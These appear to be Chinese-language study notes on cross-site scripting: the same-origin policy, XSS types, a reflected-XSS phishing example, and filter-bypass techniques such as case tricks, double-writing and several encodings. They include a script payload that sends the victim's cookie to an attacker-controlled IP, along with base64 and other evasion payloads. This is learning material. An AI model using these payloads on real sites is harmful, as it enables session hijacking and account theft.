 # js 注释
```
// /**/
```
# 同源策略
协议 域名 端口 一致
部分标签在引用第三方资源时，不受同源策略的限制
# 分类
反射 弹窗 客户端
存储  数据库 服务器
dom 页面js加载 客户端
# 利用
反射（钓鱼攻击）
```
<script> document.location = 'http://192.168.3.103:8000/pkxss/xcookie/cookie.php?cookie=' + document.cookie; </script>
将本地的cookie发送到192.168.3.103::8000 （攻击机IP）的服务器上

攻击机登录
```
![461d63bab3946c99eaf2650b4c436b32.png](../../_resources/461d63bab3946c99eaf2650b4c436b32.png)
# 绕过
## 双写大小写
```
<iMg sRC="jaVasCript:alert(0);">

<scrscriptipt>alert(/xss/)</scrscriptipt>
```
## 编码绕过
### url编码
• /的URL编码为%2F • # : %23 ; . :%2e ； + :%2b ; • < :%3c ; >: %3e ; ! :%21 ; 空格：%20 ;换行:%0a • &: %26; ( :%28 ; ) :%29; " :%22 ; ' :%27
### HTML实体编码
• "<"的编码是:&lt; • ">"的编码是:&gt;
### 进制绕过
例如："<" • html十进制:&#60; • html十六进制:&#x3c;
### JavaScript编码：
js提供了四种字符编码的策略 • 1、三个八进制数字，如果不够个数，前面补0,例如"<"编码为:\074； • 2、两个十六进制数字,如果不够个数，前面补0,例如"<"编码为:\x3c； • 3、四个十六进制数字,如果不够个数，前面补0,例如"<"编码为:\u003c； (unicode编码) • 4、对于一些控制字符,使用特殊的C类型的转义风格（例如\n和\r）
### base64编码绕过
```
Data协议使用方法 data:资源类型;编码，内容 到目前为止遇到使用base64编码的情况大多数是这样
<a href="可控点"> <iframe src="可控点"> 在这种情况下如果过滤了 <,>,' , ", javascript的话 那么要xss攻击可以这样写然后利用 base64编码！ 将<img src=x onerror=alert (1)> 整条base64编码为: PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==
```